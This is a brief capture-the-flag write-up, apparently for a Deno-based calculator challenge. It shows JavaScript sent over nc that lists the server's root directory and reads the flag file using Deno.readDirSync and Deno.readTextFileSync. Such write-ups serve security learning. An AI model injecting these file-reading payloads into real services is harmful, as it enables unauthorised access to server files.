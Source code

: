 # Clue / Information
none / not relevant

# resolution
(thanks chatgpt)
The JavaScript runs with Deno (open-source runtime).
Some of its functions allow to interact with what acts as backend.
From the Dockerfile we know that the file holding the flag begins with `/flag-` and the rest is a randomly and modified list of characters.

To connect to the server I used nc with the address and port provided by the challenge.
This gives me an input field to inject what I want.

I solved it in two steps:
- get the full name of the flag (/flag-XXXXX):
  - connect to the server, I used nc
  - send as input: `for (const entry of Deno.readDirSync("/")) {if (entry.name.search("flag-") != -1) console.log(entry)}`
  - Deno.readDirSync() returns an iterable object with the directory entries, each object has a 'name' attribute

- read the file with the name obtained:
  - connect to the server, I used nc
  - send as input: `Deno.readTextFileSync('/flag-XXX')`
  - to have error message: `try {Deno.readTextFileSync('/flag-XXXX');} catch (e) {e.name + ': ' + e.message}`
  - This will read the flag and output the flag !

# Fixup
There was a trivial bug on our previous calculator's code. Hopefully, this time there won't be a any issues :(
